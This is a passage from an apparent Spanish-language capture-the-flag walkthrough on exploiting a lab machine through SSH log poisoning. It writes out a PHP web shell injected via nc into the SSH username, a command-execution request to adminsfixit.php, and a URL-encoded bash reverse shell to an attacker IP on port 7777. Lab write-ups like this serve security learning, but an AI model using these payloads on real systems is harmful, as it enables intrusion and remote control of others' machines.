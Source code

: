Vemos que nos esta mostrando de forma repetitiva que se esta abriendo una sesion de `root`, por lo que vamos a probar a intentar injectar algun comando para ver si se muestra de forma ejecutada.

Vamos a realizar un `LOG POISONING` mediante `SSH` ya que vemos que se esta realizando una conexion por `SSH` y cuando intentamos inciciar sesion por `SSH` se muestra el nombre de usuario, por lo que vamos a intentar injectar comandos mediante el nombre de usuario:

```shell
echo "<?php system(\$_GET['cmd']);?>" | nc <IP_VICTIM> 22
```

Info:

```
SSH-2.0-OpenSSH_7.9p1 Debian-10+deb10u2
Protocol mismatch.
```

Ahora echo esto tendremos que enviar la siguiente peticion para que se cargue dicho comando pero con el parametro enviado:

```
URL = http://<IP>/adminsfixit.php?cmd=ls
```

Info:

<figure><img src="../../.gitbook/assets/image (358).png" alt=""><figcaption></figcaption></figure>

Veremos que ha funcionado, por lo que vamos a probar a enviarnos una `reverse shell` de la siguiente forma:

Volvamos a enviar este comando:

```shell
echo "<?php system(\$_GET['cmd']);?>" | nc <IP_VICTIM> 22
```

Y enviamos este `payload` de esta forma codificada en `URL`:

```
URL = http://<IP>/adminsfixit.php?cmd=bash+%20-c%20+"+bash+%20-i+%20>%26+%20/dev/tcp/192.168.28.19/7777+%200>%261+"
```

Pero antes de enviar eso por la `URL` nos pondremos a la escucha para obtener la `shell`:
